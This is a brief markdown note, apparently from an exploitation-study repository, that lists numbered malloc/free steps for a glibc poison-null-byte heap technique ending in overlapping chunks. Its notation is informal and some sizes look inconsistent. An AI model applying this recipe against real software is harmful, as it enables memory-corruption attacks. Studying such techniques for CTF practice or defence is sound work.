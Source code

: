 ## Null Byte Overflow

For This method to work 

* U  just need to have single byte overflow over the size metadata of the chunk

#### Exploit steps 

1) malloc( overflowing_chunk )

2) malloc(0x220) # chunk that is going to be shrinked

3) Make sure u fill it with "A"*0x1f0+pack(0x200)+"B"x40 , so that it passes the 

``` prevsize (next_chunk) == size  ``` check

4) malloc( 0x100 ) # the chunk going to be fooled C

5) free ( 2'nd chunk )

6)  Overflow the second chunk , now size = 0x200 , but 3'rd still thinks that it's size is 0x230 coz the prev size will not be updated 

7) malloc (0x100) # b1

8) malloc(x) # This the chunk u can overflow completely 

9) malloc(y) # the wall

10) free(b1)
11) free(c)

12) malloc(0x300) # voila magic chunk which allows us to overflow
